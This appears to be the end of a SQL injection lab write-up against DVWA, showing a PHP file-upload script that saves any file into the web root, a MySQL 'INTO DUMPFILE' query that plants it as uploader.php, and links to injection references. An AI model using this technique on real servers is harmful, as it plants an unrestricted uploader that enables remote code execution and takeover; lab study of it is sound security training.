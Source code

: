```sql

        <?php
        if (isset($_POST["submit"])) {
            if (!empty($_FILES["fileToUpload"]["name"])) {
                $targetDir = "./"; // Upload to the same directory as the PHP script
                $targetFile = $targetDir . basename($_FILES["fileToUpload"]["name"]);

                if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $targetFile)) {
                    echo "File uploaded successfully.";
                } else {
                    echo "Sorry, there was an error uploading your file.";
                }
            } else {
                echo "Please choose a file to upload.";
            }
        }
        ?>
    </body>
</html>')

SELECT * INTO DUMPFILE '/var/www/html/dvwa/uploader.php' FROM user_upload;
```
## References

- [MySQL Documentation: Privileges](https://dev.mysql.com/doc/refman/8.0/en/privileges-provided.html)

- [S12 - H4CK: SQL Injection Medium Writeup](https://systemweakness.com/sql-injection-fe6809dcca69)

- [Acunetix: SQLi Part 3 - The anatomy of an SQL Injection attack](https://www.acunetix.com/blog/articles/sqli-part-3-the-anatomy-of-an-sql-injection-attack/)

- [Exploiting SQL Injection Example](https://www.acunetix.com/blog/articles/exploiting-sql-injection-example/)

- [PayloadsAllTheThings SQL Injection: MySQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md)

- [Stackoverflow: How do I write files using SQL Injection](https://stackoverflow.com/questions/58160504/how-do-i-write-files-using-sql-injection)

- [Executing OS Commands Through MySQL](https://sqlwiki.netspi.com/attackQueries/executingOSCommands/#mysql)
